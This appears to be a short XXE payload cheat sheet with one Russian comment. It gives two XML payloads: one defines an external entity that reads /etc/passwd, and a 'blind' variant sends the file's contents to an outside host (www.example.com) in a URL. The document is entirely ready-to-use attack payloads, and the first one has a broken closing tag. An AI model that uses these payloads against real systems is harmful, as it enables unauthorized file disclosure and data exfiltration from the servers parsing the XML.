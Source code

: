 ### LFI Test
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><f>&xxe;</f
```

### Blind LFI test (если первый вариант ничего не вернул)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```